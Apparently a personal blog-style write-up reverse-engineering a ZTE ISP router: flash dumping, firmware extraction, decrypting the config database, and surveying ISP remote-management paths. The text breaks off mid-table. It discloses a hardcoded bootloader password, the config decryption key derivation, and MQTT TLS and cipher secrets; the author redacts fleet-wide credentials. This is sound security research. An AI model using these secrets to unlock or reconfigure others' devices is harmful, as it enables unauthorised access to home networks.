# ZTE H298Q Reverse Engineering

## Table of Contents

- [Why?](#why)
- [Hardware analysis](#hardware-analysis)
  - [Initial teardown](#initial-teardown)
  - [Can you deadname an internet gateway?](#can-you-deadname-an-internet-gateway)
  - [UART? UART? UART?](#uart-uart-uart)
  - [MIPS? MIPS!](#mips-mips)
  - [Bootmode?](#bootmode)
- [Dumping the flash](#dumping-the-flash)
- [Firmware analysis](#firmware-analysis)
  - [Boot password recovery](#boot-password-recovery)
  - [XML Database?](#xml-database)
- [So, about that backdoor(s)](#so-about-that-backdoors)
  - [ISP's ACS (TR-069)](#isps-acs-tr-069)
  - [ISP Remote access](#isp-remote-access)
  - [MQTT?](#mqtt)
  - [Telnet](#telnet)
- [Can i has rootfs?](#can-i-has-rootfs)
  - [The rootfs is encrypted?](#the-rootfs-is-encrypted)
  - [Warm boot extract attempt](#warm-boot-extract-attempt)
  - [Static analysis?](#static-analysis)
  - [eli5: AES](#eli5-aes)
  - [Static (symbol-less) kernel analysis!](#static-symbol-less-kernel-analysis)
  - [`kallsyms` - why a "stripped" kernel isn't](#kallsyms-why-a-stripped-kernel-isnt)
  - [Static (symbol-ful) kernel analysis!](#static-symbol-ful-kernel-analysis)
  - [Decrypting the rootfs](#decrypting-the-rootfs)
- [Kernel + userspace analysis](#kernel-userspace-analysis)
  - [Authentication / CA certificates](#authentication-ca-certificates)
  - [Build artifacts shipped in release?](#build-artifacts-shipped-in-release)
- [Finding ~Nemo~ Telnet](#finding-nemo-telnet)
- [Who's calling ~Nemo~ Telnet?](#whos-calling-nemo-telnet)
- [Who's calling Who's calling ~Nemo~ Telnet?](#whos-calling-whos-calling-nemo-telnet)
- [Who's calling Who's calling Who's calling ~Nemo~ Telnet?](#whos-calling-whos-calling-whos-calling-nemo-telnet)
- [`/webFac` (plaintext)](#webfac-plaintext)
  - [RequestFactoryMode.gch](#requestfactorymodegch)
  - [SendSq.gch](#sendsqgch)
- [`/webFacEntry` (encrypted)](#webfacentry-encrypted)
  - [SendInfo.gch](#sendinfogch)
  - [CheckLoginAuth.gch](#checkloginauthgch)
  - [FactoryMode.gch](#factorymodegch)
- [The complete (weirdly numbered) state machine:](#the-complete-weirdly-numbered-state-machine)
- [Can we actually enable it?](#can-we-actually-enable-it)
- [Tools used](#tools-used)

---

## **Why?**
My ISP (which shall not be named 😉 ) has a way of remotely accessing router settings. I've learned this the hard way after the internet company decided that hard-resetting some of my settings to their default values is a correct course of action when an ONT fails... it isn't.

After this little incident I've decided to ditch their hardware, and bought a `mikrotik hAP ac2` which has been serving me well ever since. But I just couldn't stop thinking about the fact that a bunch of these routers in the wild might have an ISP installed backdoor, which can be possibly exploited?

So one day I've decided to just go for it, and start digging around. Ground rule: I cannot break it. Not even by accident (foreshadowing? hopefully not). So any hardcore hardware tomfoolery is off the table. That should not be an issue though 😄 .

## Hardware analysis
### Initial teardown
Two screws, 4 big plastic clips on the inside (around the edges) and we are in.





Main SoC is behind a RF shield + heatsink that I won't be taking off. There are a bunch of Mediatek chips, MT7592N (small) and MT7615 (bigger, with heatsink). It's sort-of hard to find info about these, but found this:
[MediaTek](https://deviwiki.com/wiki/MediaTek)
MT7592 seems to be a "rebranding of [Ralink](https://deviwiki.com/wiki/Ralink) RT5592EP" which is a PCIe WLAN PHY. MT7615 is also a PCIe PHY, but I think this one is responsible for 5G only. Storage is provided by  W25N01GVZEIG - 1  Gbit serial NAND with SPI interface in SOIP8 package. There's also a mysterious `Si32280` which I think is responsible for handling VoIP since it sits near the RJ11 ports.

### Can you deadname an internet gateway?
Well, it turns out you can - I've been doing it all along. In theory this is an ZTE ZXHN H298Q, but they are reusing motherboards in a bunch of their models. Silkscreen says `ZXHN H268Q V7.0` so this is how I'll be referring to it. Just something to keep in mind.

### UART? UART? UART?



YEP! There are some issues with it though. I cannot yet tell why, but the board sometimes refuses to boot with ANYTHING connected to these pins. I've been able to bypass this by connecting power to the FTDI half a second after powering on the router. It's janky but it works. Without it, I think that the CPU is getting up due to backfeeding - and executing just enough code to die in a very dramatic way. Anyways, this is the output after a few tries:

```text
BGA IC
Xtal:1
DDR3 init.
DRAMC init done.
Calculate size.
DRAM size=256MB
Set new TRFC.
ddr-1333
7516DRAMC V1.0 (0)
Press 'x' or 'b' key in 1 secs to enter or skip bootloader upgrade.
EN751627 at Tue Dec 15 10:49:48 CST 2020 version 1.1 free bootbase
Set SPI Clock to 50 Mhz
bmt pool size: 81
BMT & BBT Init Success
board ip address:192.168.1.254
*** Press 1 means entering boot mode***
..................................
Entering norm mode ...
****Total Img Num: 2, Valid Img Num: 2, Try the 0th(0|1) image...
Uncompressing [LZMA] ...  done.
```

After that, we don't get anything for a while, and after some more time we get remote echo - but no shell. It seems like it's locked down pretty good on the UART side - but this output already gives us some interesting info!

### MIPS? MIPS!
The [n-th]SBL printed out:

```text
EN751627 at Tue Dec 15 10:49:48 CST 2020 version 1.1 free bootbase
```

Which is something that we can grep 😃
[EN751627 Family](https://econet-linux.pkt.wiki/hardware/EN751627)
This is a Big Endian MIPS 1004kc based SoC. In DSL applications it is called the EN7516 and in xPON applications it is called the EN7527, though the EN7527 is extremely rare. Interesting! It seems like this SoC has upstream support since Linux 6.16:
[Linux 6.16 Lands Support For EcoNet MIPS Platforms - Phoronix](https://www.phoronix.com/news/Linux-6.16-MIPS)

### Bootmode?

```text
Press 1 means entering boot mode

<!-- pressed 1 -->

### Please input boot password:###

```

Well that sucks. I've grepped the interwebs for default passwords, and tried some sane guesses but at the end of the day I was defeated by this. Turns out that I'm just bad at finding stuff, and the password was available in some Github thread, but since I've missed this - I went to the next step that came to mind.

## Dumping the flash
Defeated by the password prompt, I've ordered the required WSON8 clip from Aliexpress with matching spacing (8.5). After it arrived I've began looking on how to actually dump SPI NAND chips - turns out - it's not that difficult. Someone did a similar operation on a very similar chip (`W25N01GVZEIR`) on a similar gateway board (`H268N V1.1`) - the page is dead, but fortunately wayback machine has it archived:
[Dumping a Winbond W25N01GVZEIR (archived)](https://web.archive.org/web/20220513101446/https://www.mageirias.com/articles/hardware_hacking/dumping_a_winbond_w25n01gvzeir/dumping_a_winbond_w25n01gvzeir.html)
In this article author wired up the chip directly to the Raspberry PI SPI and wrote a small Python script to directly read out data using Jedec SPI commands. The only catch really here was the fact that he discarded first 64 bytes, which are ECC data, and are not useful for us.

I liked the simplicity of this approach, so I've grabbed a Raspberry Pi 5, wired up the setup using the table as a reference:
| Chip pin | Name | Pi 5 physical pin |
|:---------|:-----|:-------------------|
| 1 /CS | chip select | 24 (CE0) |
| 2 DO | MISO | 21 |
| 3 /WP | write-protect | **17 (3.3V) - tie HIGH** |
| 4 GND | ground | 25 |
| 5 DI | MOSI | 19 |
| 6 CLK | clock | 23 |
| 7 /HOLD | hold | **1 (3.3V) - tie HIGH** |
| 8 VCC | power | 17 (3.3V) |

After enabling `dtparam=spi=on` in `/boot/firmware/config.txt` I wrote a small script ([`utils/dump_w25n01gv.py`](utils/dump_w25n01gv.py)) to dump the flash using `spidev` and attempted dumping:

```text
rpi@rpi5:~/spi-dumper $ ./dump_w25n01gv.py
SPI clock: 16.0 MHz
JEDEC ID: mfr=0x00 dev=0x0000
  -> Unexpected ID!
```

🫪🫪🫪
Well that's not great. I've attached logic analyzer to take a look at what was going on:



MISO was getting pulled down every time i connected the pogo pins to the NAND - bummer. During some attempts I've also seen some unsolicited traffic on the SPI bus. It seems like we are backfeeding the CPU enough power to actually start working and start reading from the chip! And since the main SOC is under an RF shield I cannot just find the `RESET` line to halt it (a colleague of mine later suggested that it must be exposed as a test pad somewhere, but I still had no way of identifying which one is the reset pad, and randomly grounding test pads seems like a bad idea).

But somehow - just once for a brief while - stars aligned! I think that I've browned-out the main CPU just enough so it halted, but not enough so it rebooted and attempted to steal the SPI bus arbitration from me!

```text
rpi@rpi5:~/spi-dumper $ ./dump_w25n01gv.py --probe
SPI clock: 16.0 MHz
JEDEC ID: mfr=0xEF dev=0xAA21
  -> Winbond W25N01GV detected.
```

I've immediately started dumping:

```text
rpi@rpi5:~/spi-dumper $ ./dump_w25n01gv.py
SPI clock: 16.0 MHz
JEDEC ID: mfr=0xEF dev=0xAA21
  -> Winbond W25N01GV detected.
Page 65536/65536 (100%)    697 pg/s  ETA     0s
Done. 134217728 bytes (128.0 MiB) in 94.5s -> firmware.bin
SHA256: ce2acc844e5d9ba198dec6f26d02e0b4543d83e0845461394d428914cd3444e0
```

Unfortunately I've not been able to repeat this setup any more (tried and failed for about 2 hours) - so I only got one dump to work with. I'm trusting my gut instinct that it is not corrupted - but a second dump could verify this. Oh well.

Anyways, this is how the setup looked at the end of the debugging session:



*protip: the router is plugged into a smart plug so I can power cycle it with a wireless button*

Another colleague of mine suggested that we can possibly out-jank the janky CPU bootup. What if we only pushed 2.7V to the NAND - this way the CPU should not wake up.

## Firmware analysis

```text
❯ binwalk firmware-dump1.bin
                                                                      firmware-dump1.bin
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
65536                              0x10000                            LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed size: 60614 bytes,
                                                                      uncompressed size: 183920 bytes
3014656                            0x2E0000                           JFFS2 filesystem, big endian, nodes: 113, total size: 133120 bytes
18350112                           0x1180020                          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed size: 3875000
                                                                      bytes, uncompressed size: 10588032 bytes
39321632                           0x2580020                          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed size: 3875000
                                                                      bytes, uncompressed size: 10588032 bytes
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```

Nice! We can see two (possibly) identical LZMA partitions - most likely the `slot 0|1` that we have seen in the bootloader - a small JFFS2 partition with 113 nodes - most likely a config/provisioning parition, and a small LZMA image - most likely a second stage bootloader of sorts? That would confirm the UART partition output.

Using the `-eM` parameters (matryoshka extract) I've gotten the following output:

```text
                                          extractions/firmware-dump1.bin
-----------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------------------------------------------------------------
65536                              0x10000                            LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed
                                                                      size: 60614 bytes, uncompressed size: 183920 bytes
3014656                            0x2E0000                           JFFS2 filesystem, big endian, nodes: 113, total size: 133120 bytes
18350112                           0x1180020                          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed
                                                                      size: 3875000 bytes, uncompressed size: 10588032 bytes
39321632                           0x2580020                          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, compressed
                                                                      size: 3875000 bytes, uncompressed size: 10588032 bytes
-----------------------------------------------------------------------------------------------------------------------------------------------------------
[+] Extraction of lzma data at offset 0x10000 completed successfully
[+] Extraction of jffs2 data at offset 0x2E0000 completed successfully
[+] Extraction of lzma data at offset 0x1180020 completed successfully
[+] Extraction of lzma data at offset 0x2580020 completed successfully
-----------------------------------------------------------------------------------------------------------------------------------------------------------


                    extractions/firmware-dump1.bin.extracted/2E0000/jffs2-root/cfg/ca-cert.crt
-----------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------------------------------------------------------------
0                                  0x0                                PEM certificate
3584                               0xE00                              PEM certificate
-----------------------------------------------------------------------------------------------------------------------------------------------------------
[+] Extraction of pem_certificate data at offset 0x0 completed successfully
[+] Extraction of pem_certificate data at offset 0xE00 completed successfully
-----------------------------------------------------------------------------------------------------------------------------------------------------------


                         extractions/firmware-dump1.bin.extracted/2580020/decompressed.bin
-----------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------------------------------------------------------------
7766120                            0x768068                           Linux version 4.4.115 (xialei@host-10-57-81-204) (gcc version 4.6.3 (Buildroot
                                                                      2015.08.1) ) #1 SMP Thu Oct 20 19:04:55 CST 2022, has symbol table: false
8003200                            0x7A1E80                           CRC32 polynomial table, little endian
8082868                            0x7B55B4                           SHA256 hash constants, big endian
8083884                            0x7B59AC                           AES S-Box
8084684                            0x7B5CCC                           AES S-Box
9665888                            0x937D60                           CRC32 polynomial table, big endian
9669232                            0x938A70                           AES S-Box
10371072                           0x9E4000                           ELF binary, 32-bit shared object, MIPS for System-V (Unix), big endian
-----------------------------------------------------------------------------------------------------------------------------------------------------------
[#] Extraction of linux_kernel data at offset 0x768068 declined
-----------------------------------------------------------------------------------------------------------------------------------------------------------


                         extractions/firmware-dump1.bin.extracted/1180020/decompressed.bin
-----------------------------------------------------------------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------------------------------------------------------------
7766120                            0x768068                           Linux version 4.4.115 (xialei@host-10-57-81-204) (gcc version 4.6.3 (Buildroot
                                                                      2015.08.1) ) #1 SMP Thu Oct 20 19:04:55 CST 2022, has symbol table: false
8003200                            0x7A1E80                           CRC32 polynomial table, little endian
8082868                            0x7B55B4                           SHA256 hash constants, big endian
8083884                            0x7B59AC                           AES S-Box
8084684                            0x7B5CCC                           AES S-Box
9665888                            0x937D60                           CRC32 polynomial table, big endian
9669232                            0x938A70                           AES S-Box
10371072                           0x9E4000                           ELF binary, 32-bit shared object, MIPS for System-V (Unix), big endian
-----------------------------------------------------------------------------------------------------------------------------------------------------------
[#] Extraction of linux_kernel data at offset 0x768068 declined
-----------------------------------------------------------------------------------------------------------------------------------------------------------
```

I've had to run `binwalk` as `root` as the `jffs2` files were shipped with permissions `000`
### Boot password recovery
I tacked this first since my ADHD needed an easy win to keep this project rolling. I've (maybe foolishly) assumed that they were not using any sophisticated, cryptographically secure logic. They surely wouldn't be doing a `strcmp`??? Right??? To verify this I've dumped strings with 4 or more characters from what I've assumed is a bootloader partition (at 0x10000):

```text
❯ strings -n 4 extractions/firmware-dump1.bin.extracted/10000/decompressed.bin | rg -i 'password|boot mode|###' -C4
%.8x
%.2x
Change IP address to %s
reqfilename = %s
### Please input boot password:###
Rc9yuan3c~
Usage: %s
%s>
Booting the linux kernel.
--
CP0_STATUS=%x
CP0_CAUSE=%x
CP0_EPC=%x
CP0_BADVADDR=%x
*** Press 1 means entering boot mode***
TC3182
RT65168
RT63365
MT751020
--
Tue Dec 15 10:49:48 CST 2020
DDR EDQS scan min=%d max=%d choose EDQS=%d
Memory size %dMB
board ip address:%d.%d.%d.%d
Entering boot mode ...
Entering test mode ...
Entering norm mode ...
******start httpd******
runemt 10
```

One of them is not like the others! `Rc9yuan3c~` is looking interesting...


```text
Entering boot mode ...
### Please input boot password:###
******
      ### Please input boot password:###
**********
******start httpd******
PBUF_POOL_BUFSIZE = 256
tcp_bind()
Local Port = 0
tcp_bind: bind to port 80
  GE Rext AnaCal Done! (2)(0x1e)
PBUF_POOL_BUFSIZE = 256
memtop = 80020000
zteboot_cmdline_init
bldr>

```

lol, lmao even. I've not yet explored what can be done in this boot mode, but strings suggest that we should have access to a NAND flash tool over the HTTP:

```html
<html>
<head>
<title>TC Rescue Page</title>
</head>
<body>
<h1>Upload Successfully! Please Restart the System after 2 minutes!</h1>
</body>
</html>
HTTP/1.1 200 OK
Server: TCHTTPD/0.1
Content-Length: 691
Content-Type: text/html; charset=UTF-8
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<title>TC Rescue Page</title>
<script language=JavaScript>
function checkName(){
if(!(document.FW.FWupload.value.match("tcboot.bin") || document.FW.FWupload.value.match("tclinux.bin"))){
return true;
else
return true;
</script>
</head>
<body>
<FORM ENCTYPE="multipart/form-data" METHOD="POST" name="FW"><h1>Upload firmware here:</h1>
<INPUT TYPE="FILE" NAME="FWupload" SIZE="20" MAXLENGTH="128" style="FONT-SIZE: 10pt" contenteditable="false">&nbsp;
<input type="submit" name="Upload" value="Upload" onclick="return checkName();">
</FORM>
</body>
</html>
```

Cool! This is definitely something that I could explore later.

### XML Database?
At the `0x2E0000` offset in the file there's a `jffs2` filesystem:
> Journalling Flash File System version 2 or JFFS2 is a log-structured file system for use with flash memory devices.[1] It is the successor to JFFS. JFFS2 has been included into the Linux kernel since September 23, 2001, when it was merged into the Linux kernel mainline as part of the kernel version 2.4.10 release. JFFS2 is also available for a few bootloaders, like Das U-Boot, Open Firmware, the eCos RTOS, the RTEMS RTOS, and the RedBoot. Most prominent usage of the JFFS2 comes from OpenWrt.[2]

From [https://en.wikipedia.org/wiki/JFFS2](https://en.wikipedia.org/wiki/JFFS2)

Exploring the tree:

```text
~/workspace/zte-dump/extractions/firmware-dump1.bin.extracted/2E0000
❯ tree
.
└── jffs2-root
    ├── cfg
    │   ├── ca-cert.crt
    │   ├── ca-cert.crt.extracted
    │   │   ├── 0
    │   │   │   └── pem.crt
    │   │   └── E00
    │   │       └── pem.crt
    │   ├── db_backup_cfg.xml
    │   ├── db_user_cfg.xml
    │   ├── flag_type
    │   ├── log
    │   └── logconf
    ├── chain1
    ├── chain2
    ├── chain3
    ├── chain4
    ├── env
    │   └── env_param
    └── log
        └── SecLog

```

`db_user_cfg.xml`. That's the whole running config - WAN, WiFi, and hopefully whatever ISP provisioning gremlins live in there. Except of course it's not XML at all. `head`-ing it gave me a face full of binary, and the first four bytes are `01 02 03 04`. ZTE (or ISP?) encrypts these...

Fortunately there's a tool for this: **zcu** ([zte-config-utility](https://github.com/mkst/zte-config-utility)):

```text
❯ python zte-config-utility/examples/decode.py db_user_cfg.xml out.xml --signature "ZXHN H268Q" --try-all-known-keys
Decoding type 4 payload...
Trying key: 'ZXHNH268QKey02710010' ...
Trying key: 'ZXHNH268QKey02721401' ...
...
Failed to decrypt payload. Tried 6 generated key(s)!

```

My DB is of type 4 = AES-256-CBC where the key and IV are "different" - fancy. The key isn't stored anywhere. It's derived: `key = SHA256(signature + key_suffix)`, `iv = SHA256(signature + iv_suffix)[:16]`, where `signature` is basically the model string with spaces stripped, and the suffix is some magic build constant. But it failed... The silkscreen says H268Q, zcu even ships a hardcoded suffix for the H268Q (`02710010`)... and none of it works. I burned an embarrassing amount of time here. Turns out that the signature was wrong the whole time. And the answer was sitting in the firmware image the entire time, I just had assumed that a PCB silk-screened with `H268Q` is going to run `H268Q` firmware - a completely sane assumption... right?

Out of ideas I've began to grep for `H268Q` inside the NAND dump strings:

```text
~/workspace/zte-dump
❯ strings firmware-dump1.bin | rg -i 'H268Q'

~/workspace/zte-dump
❯ echo $status
1
```

 Confused by this I've widened the grep to cover more models:

```text
❯ strings firmware-dump1.bin | rg -i 'H\d{3,}.*'
H298Q_A75B_2.4G
H298Q_A75B_5G
h028
H9541
6h066
H103Z)
h437
mh8457
'H903
kH510
H755
H671>
H816
THIS IS H298Q VERSION
h028
H9541
6h066
H103Z)
h437
mh8457
'H903
kH510
H755
H671>
H816
THIS IS H298Q VERSION
```

Disregard whatever I told in the "Can you deadname an internet gateway" section... I've searched for the `THIS IS H298Q VERSION` string in the NAND dump:

```text
01f7ffa0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f7ffb0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f7ffc0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f7ffd0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f7ffe0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f7fff0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f80000: 0000 0000 0000 0000 0000 0271 0000 0010  ...........q....
01f80010: 5637 2e30 2e31 4335 5f** **00 0000 0000  V7.0.1C5_[ISP]..
01f80020: 0000 0001 0000 0000 0000 0000 0001 0000  ................
01f80030: 00de dd90 003b 20b8 0000 025c 1548 1647  .....; ....\.H.G
01f80040: 00a2 dd90 003c 023c 11b7 d24f 0000 0000  .....<.<...O....
01f80050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f80060: 0000 0000 0000 0000 0000 0000 5448 4953  ............THIS
01f80070: 2049 5320 4832 3938 5120 5645 5253 494f   IS H298Q VERSIO
01f80080: 4e00 0000 0000 0000 0000 0000 0000 0000  N...............
01f80090: 0000 0000 0000 0000 0000 0000 0000 0001  ................
01f800a0: 0000 0000 ccc0 257a 3230 3232 3130 3230  ......%z20221020
01f800b0: 3139 3139 3039 0000 0000 0000 ffff ffff  191909..........
01f800c0: ffff ffff 0000 0000 0000 0000 0000 0000  ................
01f800d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f800e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f800f0: 0000 0000 3333 3333 6666 6666 9999 9999  ....3333ffff....
01f80100: cccc cccc 0000 0000 0000 0000 0000 0000  ................
01f80110: 5631 2e30 2e30 0000 0000 0000 0000 0000  V1.0.0..........
01f80120: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f80130: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f80140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f80150: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f80160: ffff ffff ffff ffff ffff ffff ffff ffff  ................
01f80170: ffff ffff ffff ffff 0000 0000 0000 0000  ................
01f80180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
01f80190: 00ff ffff ffff ffff ffff ffff ffff ffff  ................
01f801a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
```

These strings are located at the end of the ~~LZMA images~~ rootfs data. So the board is a H268Q. The firmware thinks it's a H298Q. zcu maps both models to the same suffix (`02710010`) so I never noticed I was feeding it the wrong signature - the model name is literally part of the AES key material. And the cherry on top: the signature includes the **firmware version**. Not `ZXHN H298Q`, but `ZXHN H298Q V7.0`.
Plugging that in:

```text
❯ python zte-config-utility/examples/decode.py db_user_cfg.xml db_user_cfg.decoded.xml --signature "ZXHN H298Q V7.0" --key-suffix "Key02710010" --iv-suffix "Iv02710010"
Decoding type 4 payload...
Trying key: 'ZXHNH298QV7.0Key02710010' iv: 'ZXHNH298QV7.0Iv02710010' generated from signature: 'ZXHN H298Q V7.0'
Successfully decoded using key: 'ZXHNH298QV7.0Key02710010'

```


## So, about that backdoor(s)
The whole reason why I started this effort is to find the way that "my" gateway talks behind my back. Turns out there are quite a few interesting findings:
### ISP's ACS (TR-069)
ACS stands for "Auto Configuration Server" - a piece of software that talks with CPS (customer-premises equipment) over a CPE WAN Management Protocol (CWMP). This is all described in Technical Report 69 (TR-069) by the Broadband Forum (BF). Gotta love the amount of acronyms engineers can squeeze into one sentence right?

Inside the database it is described as `MgtServer` - I've dumped the interesting parameters:

```xml
<Tbl name="MgtServer" RowCount="1">
<Row No="0">
<DM name="URL" val="https://tilgin-acs.[ISP].com.pl/tr-069/TR-069"/>
<DM name="PeriodicInformEnable" val="1"/>
<DM name="PeriodicInformInterval" val="86400"/>					# 24h
<DM name="ConnectionRequestUsername" val="user"/>
<DM name="ConnectionRequestPassword" val="[REDACTED]"/>
<DM name="SupportCertAuth" val="1"/>
<DM name="Tr069Enable" val="1"/>
<DM name="PKCS12PassWord" val="[REDACTED]"/>
<DM name="MWSURL" val="http://0.0.0.0:9090"/>
</Row>
</Tbl>
```

<details>
<summary>Full ACS dump!</summary>

```xml
<Tbl name="MgtServer" RowCount="1">
<Row No="0">
<DM name="URL" val="https://tilgin-acs.[ISP].com.pl/tr-069/TR-069"/>
<DM name="UserName" val=""/>
<DM name="Password" val=""/>
<DM name="PeriodicInformEnable" val="1"/>
<DM name="PeriodicInformInterval" val="86400"/>
<DM name="PeriodicInformTime" val="0001-01-01T00:00:00Z"/>
<DM name="ParameterKey" val=""/>
<DM name="ConnectionRequestURL" val="7547"/>
<DM name="ConnectionRequestUsername" val="user"/>
<DM name="ConnectionRequestPassword" val="[REDACTED]"/>
<DM name="UpgradesManaged" val="0"/>
<DM name="Event" val=""/>
<DM name="DefaultWan" val=""/>
<DM name="SessionRetryTimes" val=""/>
<DM name="SupportCertAuth" val="1"/>
<DM name="Tr069Enable" val="1"/>
<DM name="MWSURL" val="http://0.0.0.0:9090"/>
<DM name="DataModule" val="0"/>
<DM name="StringPrefix" val=""/>
<DM name="CertID" val="Auto"/>
<DM name="retryMinWaitInterval" val="5"/>
<DM name="RetryIntervalMultiplier" val="2000"/>
<DM name="CheckHost" val="0"/>
<DM name="ACSType" val="1"/>
<DM name="ACSURLRetry" val="300"/>
<DM name="RemoteUpgradeCertAuth" val="0"/>
<DM name="ParamTypeCheck" val="0"/>
<DM name="VendorParamPrefix" val=""/>
<DM name="AliasBasedAddressing" val="0"/>
<DM name="InstanceMode" val="InstanceNumber"/>
<DM name="AutoCreateInstances" val="0"/>
<DM name="ConnectionRequestMode" val="0"/>
<DM name="ParamMode" val="0"/>
<DM name="ConfMode" val="0"/>
<DM name="DefActiveNotificationThrottle" val="0"/>
<DM name="DelSameParam" val="0"/>
<DM name="ClrDnsCache" val="0"/>
<DM name="ConnReqDigestAuthEnable" val="1"/>
<DM name="PKCS12PassWord" val="[REDACTED]"/>
<DM name="ClrConnFailACSIP" val="0"/>
<DM name="CheckApiRet" val="1"/>
<DM name="InformLocalTime" val="0"/>
</Row>
</Tbl>
```

</details>

This is most likely the entry point that ISP used to reset my settings, that's interesting on its own, and highlights a possible MITM attack - everyone who controls `https://tilgin-acs.[ISP].com.pl/tr-069/TR-069` controls the entire ISP fleet! Fortunately they are behind certificates - so it's fine.

### ISP Remote access
Yet another way my service provider can reach me! There are two rules for the `Firewall Service Control` - both live on the `DEV.IP.IF4` interface, which resolves to the `MNGT+VOIP` WAN on the `VLAN 20`. So they are not exposed to the internet facing WAN, but are accessible only from the inside of the ISP L2 network. Seems secure enough. There are two ranges:
- [REDACTED]/23 - NOC corporate network
- [REDACTED]/23 - VPN access from outside of the corp. network

```xml
<Tbl name="FWSC" RowCount="2">
<Row No="0">
<DM name="ViewName" val="IGD.FWSc.FWSC1"/>
<DM name="Name" val="GuiViaCorpNetwork"/>
<DM name="IPMode" val="1"/>
<DM name="Enable" val="1"/>
<DM name="INCViewName" val="DEV.IP.IF4"/>
<DM name="MinSrcIp" val="[REDACTED_RANGE_START]"/>
<DM name="MinSrcMask" val="0.0.0.0"/>
<DM name="MaxSrcIp" val="[REDACTED_RANGE_END]"/>
<DM name="Prefix" val="::"/>
<DM name="PrefixLen" val="0"/>
<DM name="Servise" val="0"/>
<DM name="ServiceList" val="HTTPS,PING"/>
<DM name="FilterTarget" val="1"/>
</Row>
<Row No="1">
<DM name="ViewName" val="IGD.FWSc.FWSC2"/>
<DM name="Name" val="GuiViaVPN"/>
<DM name="IPMode" val="1"/>
<DM name="Enable" val="1"/>
<DM name="INCViewName" val="DEV.IP.IF4"/>
<DM name="MinSrcIp" val="[REDACTED_RANGE_START]"/>
<DM name="MinSrcMask" val="0.0.0.0"/>
<DM name="MaxSrcIp" val="[REDACTED_RANGE_END]"/>
<DM name="Prefix" val="::"/>
<DM name="PrefixLen" val="0"/>
<DM name="Servise" val="0"/>
<DM name="ServiceList" val="HTTPS,PING"/>
<DM name="FilterTarget" val="1"/>
</Row>
</Tbl>
```

Oh and passwords? No need to worry about them:

```xml
<Tbl name="DevAuthInfo" RowCount="7">
<Row No="0">
<DM name="ViewName" val="IGD.AU1"/>
<DM name="Enable" val="1"/>
<DM name="AppID" val="1"/>
<DM name="User" val="tech"/>
<DM name="Pass" val="[REDACTED - fleet-wide ISP credential, not disclosed]"/>
<DM name="Level" val="1"/>
<DM name="ChgPwd" val="0"/>
<DM name="AccessIP" val=""/>
<DM name="LoginTime" val=""/>
<DM name="Extra" val=""/>
<DM name="ExtraInt" val="0"/>
</Row>
```

The highest privilege level account is hardcoded with a password I won't be sharing here, since it's fleet-wide across this ISP. I've confirmed this with a couple of other routers - yep, same credentials everywhere. Until the ISP rotates these, publishing them would be irresponsible.

### MQTT?
Another interesting tidbit I've found in the database was an... MQTT server?

```xml
<Tbl name="MQTTSrv" RowCount="1">
<Row No="0">
<DM name="ViewName" val="DEV.MQTT1"/>
<DM name="Enable" val="1"/>
<DM name="AuthURL" val="https://rot-dispatch-sh.ztehome.com.cn:443"/>
<DM name="LanOnly" val="1"/>
<DM name="NoSearch" val="0"/>
<DM name="areaCode" val=""/>
<DM name="TCPListenPort" val="18991"/>
<DM name="UDPListenPort" val="8887"/>
<DM name="NotifyPort" val="8888"/>
<DM name="APPEnable" val="1"/>
<DM name="PingHost" val="8.8.8.8"/>
<DM name="CBCKey" val="737270656C696E6B"/>
<DM name="CBCIV" val="1918160512091411"/>
<DM name="TLSPW" val="12qwaszx"/>
<DM name="NeedSNI" val="1"/>
<DM name="DuplexAuth" val="0"/>
<DM name="CloudReport" val="0"/>
</Row>
</Tbl>
```

I won't really dig into this too much, as this looks like an MQTT interface for a mobile app (`LanOnly` and `APPEnable` are set, `CloudReport` is disabled). ZTE has shipped a couple of mobile apps, but I've not played around with them. Assuming that MQTT never leaves the local network - it's not that interesting. But what's interesting in this particular case, is the world-class cryptography, the TLS password is a... keyboard walk:

```text
12
qw
as
zx
```

### Telnet
Two separate telnet configurations live in the database. First, `TelnetCfg` - the standard telnet daemon on port 23, completely disabled:

```xml
<Tbl name="TelnetCfg" RowCount="1">
  <Row No="0">
    <DM name="TS_Enable" val="0"/>
    <DM name="Wan_Enable" val="0"/>
    <DM name="Lan_Enable" val="0"/>
    <DM name="TS_Port" val="23"/>
    <DM name="Max_Con_Num" val="5"/>
    <DM name="SecurityEnable" val="0"/>
  </Row>
</Tbl>
```

Then, `TelnetDebug` - a separate debug telnet on a non-standard port, with LAN access enabled:

```xml
<Tbl name="TelnetDebug" RowCount="1">
  <Row No="0">
